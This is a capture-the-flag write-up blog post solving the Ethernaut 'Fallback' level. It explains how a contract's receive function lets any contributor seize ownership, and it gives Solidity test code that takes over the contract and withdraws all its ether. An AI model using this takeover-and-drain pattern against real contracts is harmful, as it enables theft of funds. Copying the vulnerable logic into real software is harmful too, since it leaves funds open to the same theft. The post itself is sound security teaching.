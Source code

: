 ```yaml
---
title: 'Ethernaut Challenge #1 Solution — Fallback'
excerpt: 'This is Part 1 of the "Let’s play OpenZeppelin Ethernaut CTF" series, where I will explain how to solve each challenge.</br></br>

The goal of this challenge is to claim ownership of the `Fallback` contract and reduce its balance to 0.
'
coverImage: '/assets/blog/ethernaut/fallback.svg'
date: '2020-03-16T05:35:07.322Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernaut/fallback.svg'
---
```


This is Part 1 of the ["Let’s play OpenZeppelin Ethernaut CTF"](https://stermi.xyz/blog/lets-play-openzeppelin-ethernaut) series, where I will explain how to solve each challenge.

> [The Ethernaut](https://ethernaut.openzeppelin.com/) is a Web3/Solidity based wargame created by [OpenZeppelin](https://openzeppelin.com/).
> Each level is a smart contract that needs to be 'hacked'. The game acts both as a tool for those interested in learning ethereum, and as a way to catalogue historical hacks in levels. Levels can be infinite and the game does not require to be played in any particular order.

# Challenge #1: Fallback

The goal of this challenge is to claim ownership of the `Fallback` contract and reduce its balance to 0.

## Study the contracts

First thing that we notice, the Solidity compiler version used is `< 0.8.x`. This mean that the contract would be prone to math underflow and overflow bugs.

This contract is importing and using OpenZeppelin [SafeMath](https://docs.openzeppelin.com/contracts/4.x/api/utils#SafeMath) library, but they are not using it. There is still no way to exploit it by overflow, at least in this specific case.

The only way to drain the contract is via the `withdraw` function that can be called only if the `msg.sender` equal to the value of the variable `owner` (see the `onlyOwner` function modifier). This function will transfer to the `owner` address, **all** the funds in the contract.

Let's look at the code:

```solidity
function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
}
```

So if we find a way to change the `owner` value to our address, we will be able to drain all the ether from the contract.

There are actually two places in the contract where the `owner` variable is updated with `msg.sender`

1. The `contribute` function
2. The `receive` function

### The `contribute` function

```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if (contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
    }
}
```

This function allows the `msg.sender` to send `wei` to the contract. Those `wei` will be added to the user's balance, tracked by the `contributions` mapping variable.

If the total contribution made by the user is greater than the one made by the actual owner (`contributions[msg.sender] > contributions[owner]`) the `msg.sender` will become the new owner.

The problem is that the contribution made by the owner is equal to `1000 ETH`. It's not written anywhere in the description of the challenge, but we can think that our user will start with a limited amount of ETH, an amount that does not allow us to contribute more than the `owner`. So, we need to find another way.

### The `receive` function

This is a "special" function that is called "automatically" when someone sends some ether to a contract without specifying anything in the "data" field of the transaction.

Quoting from the official [Solidity blog post](https://blog.soliditylang.org/2020/03/26/fallback-receive-split/) when the function has been introduced:

> A contract can now have only one `receive` function, declared with the syntax: `receive() external payable {…}` (without the `function` keyword).
> It executes on calls to the contract with no data (`calldata`), e.g. calls made via `send()` or `transfer()`.
> The function cannot have arguments, cannot return anything and must have `external` visibility and `payable` state mutability.

Here's the code:

```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

In the `receive` function, the `owner` is updated with `msg.sender` only if the amount of `wei` sent with the transaction is `> 0` and our contribution in `contributions[msg.sender]` is `> 0`

At this point, we have all the pieces to build the puzzle and win the challenge. Let's see the solution!

## Solution code

Here's what we need to do:

1. Contribute to the contract with at max `0.001 ether` (to pass the `require` check) calling the `contribute` function so the `contributions[msg.sender]` will be greater than zero
2. Send `1 wei` directly to the contract to trigger the `receive` function and become the new `owner`
3. Call `withdraw` and bring home all the `ETH` stored in the contract!

And here's the Solidity code:

```solidity
function exploitLevel() internal override {
    vm.startPrank(player);

    // send the minimum amount to become a contributor
    level.contribute{value: 0.0001 ether}();

    // send directly to the contract 1 wei, this will allow us to become the new owner
    (bool sent, ) = address(level).call{value: 1}("");
    require(sent, "Failed to send Ether to the level");

    // now that we are the owner of the contract withdraw all the funds
    level.withdraw();

    vm.stopPrank();
}
```

You can read the full solution of the challenge opening [Fallback.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/Fallback.t.sol)

## Further reading

- OpenZeppelin [SafeMath library](https://docs.openzeppelin.com/contracts/4.x/api/utils#SafeMath) (**only needed with `Solidity < 0.8`**)
- The `receive` function [Solidity blog post](https://blog.soliditylang.org/2020/03/26/fallback-receive-split/)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
